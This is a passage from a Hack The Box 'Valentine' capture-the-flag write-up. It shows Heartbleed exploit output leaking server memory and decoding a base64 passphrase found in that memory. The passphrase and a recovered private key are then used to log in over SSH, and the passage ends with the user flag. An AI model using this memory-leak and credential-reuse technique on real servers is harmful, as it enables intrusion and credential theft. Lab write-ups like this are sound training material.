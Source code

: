 		Connecting...
		Sending Client Hello...
		Waiting for Server Hello...
		 ... received message: type = 22, ver = 0300, length = 94
		 ... received message: type = 22, ver = 0300, length = 885
		 ... received message: type = 22, ver = 0300, length = 331
		 ... received message: type = 22, ver = 0300, length = 4
		Sending heartbeat request...
		 ... received message: type = 24, ver = 0300, length = 16384
		Received heartbeat response:
		  0000: 02 40 00 D8 03 00 53 43 5B 90 9D 9B 72 0B BC 0C  .@....SC[...r...
		  0010: BC 2B 92 A8 48 97 CF BD 39 04 CC 16 0A 85 03 90  .+..H...9.......
		  0020: 9F 77 04 33 D4 DE 00 00 66 C0 14 C0 0A C0 22 C0  .w.3....f.....".
		  0030: 21 00 39 00 38 00 88 00 87 C0 0F C0 05 00 35 00  !.9.8.........5.
		  0040: 84 C0 12 C0 08 C0 1C C0 1B 00 16 00 13 C0 0D C0  ................
		  0050: 03 00 0A C0 13 C0 09 C0 1F C0 1E 00 33 00 32 00  ............3.2.
		  0060: 9A 00 99 00 45 00 44 C0 0E C0 04 00 2F 00 96 00  ....E.D...../...
		  0070: 41 C0 11 C0 07 C0 0C C0 02 00 05 00 04 00 15 00  A...............
		  0080: 12 00 09 00 14 00 11 00 08 00 06 00 03 00 FF 01  ................
		  0090: 00 00 49 00 0B 00 04 03 00 01 02 00 0A 00 34 00  ..I...........4.
		  00a0: 32 00 0E 00 0D 00 19 00 0B 00 0C 00 18 00 09 00  2...............
		  00b0: 0A 00 16 00 17 00 08 00 06 00 07 00 14 00 15 00  ................
		  00c0: 04 00 05 00 12 00 13 00 01 00 02 00 03 00 0F 00  ................
		  00d0: 10 00 11 00 23 00 00 00 0F 00 01 01 30 2E 30 2E  ....#.......0.0.
		  00e0: 31 2F 64 65 63 6F 64 65 2E 70 68 70 0D 0A 43 6F  1/decode.php..Co
		  00f0: 6E 74 65 6E 74 2D 54 79 70 65 3A 20 61 70 70 6C  ntent-Type: appl
		  0100: 69 63 61 74 69 6F 6E 2F 78 2D 77 77 77 2D 66 6F  ication/x-www-fo
		  0110: 72 6D 2D 75 72 6C 65 6E 63 6F 64 65 64 0D 0A 43  rm-urlencoded..C
		  0120: 6F 6E 74 65 6E 74 2D 4C 65 6E 67 74 68 3A 20 34  ontent-Length: 4
		  0130: 32 0D 0A 0D 0A 24 74 65 78 74 3D 61 47 56 68 63  2....$text=aGVhc
		  0140: 6E 52 69 62 47 56 6C 5A 47 4A 6C 62 47 6C 6C 64  nRibGVlZGJlbGlld
		  0150: 6D 56 30 61 47 56 6F 65 58 42 6C 43 67 3D 3D 15  mV0aGVoeXBlCg==.
		  0160: ED 9D 02 7D 42 4F CD 00 9F E3 EF 56 AF A6 08 99  ...}BO.....V....
		  0170: 9F 76 59 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C  .vY.............
		  0180: D2 81 18 3A 68 64 AE E9 57 93 E9 CE 14 B0 99 44  ...:hd..W......D
		  0190: 76 11 55 2D 00 15 00 68 00 00 00 00 00 00 00 00  v.U-...h........
		```
		- `$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==`
	4. Decode it
		```
		┌──(root💀kali)-[~/htb/valentine/10.10.10.79/loot]
		└─# echo aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg== | base64 -d
		heartbleedbelievethehype	
		```
		- This should be the passphrase for the SSH private key


## TCP/22 (SSH)
1. SSH w/ `hype:heartbleedbelievethehype`
	```
	┌──(root💀kali)-[~/htb/valentine/10.10.10.79/loot]
	└─# chmod 600; ssh hype@valentine.htb -i id_rsa
	```
2. User Flag
	```
	e6710a5464769fd5fcd216e076961750
	```
	![]({{ page.img_path }}Pasted%20image%2020220829025828.png)
